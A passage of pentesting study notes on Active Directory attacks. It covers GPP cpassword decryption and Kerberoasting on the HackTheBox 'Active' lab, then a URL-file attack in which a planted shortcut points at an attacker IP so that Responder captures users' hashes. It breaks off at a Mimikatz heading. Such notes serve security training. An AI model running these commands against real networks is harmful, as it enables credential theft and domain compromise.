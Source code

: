#### Resource

[https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

### Abusing GPP

Example using Active on HackTheBox.

#### Part 1

1. Downloaded files from SMB
2. Found Groups.xml with `name-active.htb\SVC_TGS` and the `cpassword="<hash>"`
3. Execute `gpp-decrypt` \<hash>

#### Part 2

1. &#x20;Tried `psexec.py active.htb/svc_tgs:<password>@<IP>` but failed...
2. Then `GetUserSPNs.py active.htb/svc_tgs:<password> -dc-ip <IP> -request`
   1. Returns a service ticket which we can copy and crack
      1. hashcat -m 13100 hashes.txt rockyou.txt -O
3. Finally psexec.py active.htb/Administrator:\<password>@\<IP>

## URL File Attacks

Requires compromised user account of an open file share.

Create a file:

```
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\<ATACKER IP>%USERNAME%.icon 
IconIndex=1Mimikatz
```

Save file at "@test.url". Needs '@' and '.url' which will ensure it ends up at the top of the folder.

Then place it on a file share.

Then run Responder: `responder -I eth0 -v`

Now when a user navigates to the file share, responder will capture hashes.

#### Resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)

## Mimikatz

### Overview
